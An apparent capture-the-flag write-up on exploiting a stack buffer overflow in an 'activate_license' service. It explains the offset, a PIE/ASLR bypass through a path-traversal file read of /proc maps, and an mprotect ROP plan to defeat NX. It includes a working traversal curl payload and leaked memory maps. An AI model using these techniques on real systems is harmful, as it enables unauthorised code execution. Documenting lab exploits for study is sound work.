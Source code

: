 ### Basic Dynamic Analysis

- Requires a single command-line argument, the port number to listen on
- Parent process listens on port and dispatches children processes to handle client requests

### Source Code Analysis

Client requests are handled by the `activate_license` function. This function reads the data sent by `activate_license.php` into a 512-byte, stack-allocated buffer. Even though it knows the size of the data, it doesn't perform a size check before transfering the data into the buffer. By providing a file greater than 512 bytes, it is possible to overflow the buffer.

### Exploit Development

Local experimentation indicates the instruction pointer lies at offset 520 from the beginning of the payload. By sending a payload greater than or equal to 528 bytes, bytes 520 through 528 will overwrite the instruction pointer, granting control over the program's execution flow. At the point of instruction pointer overwrite, RSP is the only register pointing at the buffer.

The binary is compiled with PIE and the target has ASLR enabled, making it impossible to rely on hardcoded addresses. The binary is also compiled with the NX bit set, making it impossible to execute shellcode on the stack.

However, the web application's arbitrary file read vulnerability makes it possible to read the target process's memory map, leaking the binary and `libc` base addresses. This makes it possible to bypass PIE and ASLR.

The arbitrary file read vulnerability can also be used to leak the address range of the process's stack section. These addresses can be combined with a ROP gadget that uses [mprotect](https://man7.org/linux/man-pages/man2/mprotect.2.html) to make the stack section executable, bypassing NX. Control flow can then be directed back at RSP, where arbitrary shellcode can be executed.

### Exploitation

The target process's binary base address is `0x55f68e56d000`, `libc` base address is `0x0x7f3e90696000`, and stack address range is `0x7f3e909d1000`  through `0x7f3e909d2000`.

```bash
$ curl 'http://10.129.128.14/index.php?page=js/.....///.....///.....///.....///proc/421/maps'
55f68e56d000-55f68e56e000 r--p 00000000 08:01 2408                       /usr/bin/activate_license
55f68e56e000-55f68e56f000 r-xp 00001000 08:01 2408                       /usr/bin/activate_license
55f68e56f000-55f68e570000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
55f68e570000-55f68e571000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
55f68e571000-55f68e572000 rw-p 00003000 08:01 2408                       /usr/bin/activate_license
55f68f3ca000-55f68f3eb000 rw-p 00000000 00:00 0                          [heap]
7f3e90528000-7f3e9052a000 rw-p 00000000 00:00 0
7f3e9052a000-7f3e9052b000 r--p 00000000 08:01 3635                       /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f3e9052b000-7f3e9052d000 r-xp 00001000 08:01 3635                       /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f3e9052d000-7f3e9052e000 r--p 00003000 08:01 3635                       /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f3e9052e000-7f3e9052f000 r--p 00003000 08:01 3635                       /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f3e9052f000-7f3e90530000 rw-p 00004000 08:01 3635                       /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f3e90530000-7f3e90537000 r--p 00000000 08:01 3645                       /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f3e90537000-7f3e90547000 r-xp 00007000 08:01 3645                       /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f3e90547000-7f3e9054c000 r--p 00017000 08:01 3645                       /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f3e9054c000-7f3e9054d000 r--p 0001b000 08:01 3645                       /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f3e9054d000-7f3e9054e000 rw-p 0001c000 08:01 3645                       /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
```